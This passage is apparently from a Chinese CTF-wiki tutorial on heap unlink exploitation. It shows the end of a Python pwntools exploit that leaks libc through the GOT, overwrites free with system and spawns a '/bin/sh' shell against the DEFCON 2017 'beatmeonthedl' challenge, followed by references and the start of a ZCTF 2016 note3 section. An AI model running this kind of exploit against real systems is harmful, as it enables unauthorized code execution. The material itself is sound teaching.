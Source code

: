 ```python

    print 'step 5'
    # set wheel cnt =3, 0x603130 in order to start robot
    write(0x603130, 3)
    # set destructor point to puts@got
    change(1, p64(robots.got['puts']))
    start_robot()
    p.recvuntil('New hands great!! Thx ')
    puts_addr = p.recvuntil('!\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    log.success('libc base: ' + hex(libc_base))
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    # make free->system
    write(robots.got['free'], system_addr)
    # make destructor point to /bin/sh addr
    write(0x6030E8, binsh_addr)
    # get shell
    remove(6)
    p.interactive()

    pass


if __name__ == "__main__":
    exp()

```

### 题目

- [DEFCON 2017 Qualifiers beatmeonthedl](https://github.com/Owlz/CTF/raw/master/2017/DEFCON/beatmeonthedl/beatmeonthedl)

### 参考

- malloc@angelboy
- https://gist.github.com/niklasb/074428333b817d2ecb63f7926074427a


## note3
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/unlink/ZCTF_2016_note3)

### 介绍

ZCTF 2016的一道题目，考点是safe unlink的利用。

### 题目介绍
